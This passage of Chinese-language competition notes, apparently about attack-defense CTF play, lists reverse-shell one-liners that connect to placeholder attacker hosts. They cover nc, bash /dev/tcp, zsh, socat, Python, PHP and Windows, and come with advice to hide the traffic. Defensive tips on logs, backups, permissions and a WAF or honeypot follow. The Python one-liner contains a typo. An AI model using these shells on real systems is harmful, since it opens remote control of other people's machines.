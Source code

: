 &emsp;&emsp;这东西不及时发现就凉了,磁盘一会就爆了

- 反弹后门技巧

> shell

```sh
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```

>python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_REAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> php

```php
php -r '$sock=fsockopen("your_ip","4444");exec("/bin/sh -i <&3 >&3 2>&3");'
```

> windows

```powershell
nc.exe -e /bin/bash 1.3.3.7 4444
```

&emsp;&emsp;看到这么多罪恶的脚本心里好受了许多

> 一定要记得流量混淆,瞎鸡儿发一下垃圾包假装连一句话混淆视听

### 关于防御  

--- 

&emsp;&emsp;防御是真的难,但也基本就一下几点:

1. 日志
    - /var/log/apache2/access.log
    - /var/log/apache2/error.log
    - /var/log/nginx/access.log
    - /var/log/nginx/error.log

2. 要快速弄清楚服务的目录,做好备份!!!!!!!
    - 去看/etc/apache2/ports.conf和/etc/apache2/sites-available/000-default.conf,快速找到目录和对应端口
    - 去/etc/nginx/ 基本差不多
    - 不做备份哭鸡鸡
    
3. 配置目录权限,尽量不要给777

4. 挂waf,但是框架挂waf有些困难,我得再研究一下挂在哪里比较合适,盲猜得挂路由...
    - 这是我魔改的蜜罐,过滤了crontab和base64,我真是怕了...
    - 需要注意的是,最好建一个log目录然后给777,最好不要直接把log写在当前目录下
    